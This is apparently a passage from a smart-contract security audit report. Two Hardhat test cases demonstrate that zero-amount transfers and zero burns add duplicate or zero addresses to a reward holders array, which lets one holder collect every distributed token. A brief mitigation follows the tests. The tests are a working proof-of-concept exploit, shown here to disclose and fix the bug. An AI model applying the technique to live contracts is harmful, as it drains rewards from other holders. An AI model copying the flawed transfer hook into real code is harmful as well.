 ```typescript
it("malicious user can add himself to holders array multiple times and steal rewards", async function () {
    const { infraERC20, erc20Owner, nftAccount1, holder1, holder2 } = await liquidErc20Fixture();
    const nft = await deployLiquidNFT(nftAccount1);
    const erc20 = await deployERC20A(erc20Owner);

    await nft.setThresholds([await erc20.getAddress()], [parseEther('100')]);
    await nft.transferFrom(nftAccount1.address, await infraERC20.getAddress(), await nft.AccountId());
    await infraERC20.addManagedNFT(await nft.getAddress());
    await infraERC20.setDistributableERC20s([await erc20.getAddress()]);

    const OTHER_ADDRESS = '0x1111111111111111111111111111111111111111'

    await infraERC20.approveHolder(holder1.address);
    await infraERC20.approveHolder(holder2.address);

    // Malicious user transfers 0 to himself to add himself to the holders array
    await infraERC20.transferFrom(OTHER_ADDRESS, holder1.address, 0);

    // Setup balances
    await infraERC20.mint(holder1.address, parseEther('1'));
    await infraERC20.mint(holder2.address, parseEther('1'));
    await erc20.mint(await nft.getAddress(), parseEther('2'));
    await infraERC20.withdrawFromAllManagedNFTs();

    // Distribute to all holders fails because holder1 is in the holders array twice
    // Calling distribute with 2 sends all funds to holder1
    await mine(500);
    await expect(infraERC20.distributeToAllHolders()).to.be.reverted;
    await expect(() => infraERC20.distribute(2))
        .to.changeTokenBalances(erc20, [holder1, holder2], [parseEther('2'), parseEther('0')]);
    expect(await erc20.balanceOf(await infraERC20.getAddress())).to.eq(parseEther('0'));
});

it("malicious user can add zero address to holders array", async function () {
    const { infraERC20, erc20Owner, nftAccount1, holder1 } = await liquidErc20Fixture();

    for (let i = 0; i < 10; i++) {
        await infraERC20.burn(0);
    }
    // I added a getHolders view function to better see this vulnerability
    expect((await infraERC20.getHolders()).length).to.eq(10);
});
```

### Recommended Mitigation Steps

Adjust the logic in `_beforeTokenTransfer` to ignore burns, transfers where the amount is `0`, and transfers where the recipient already has a positive balance.
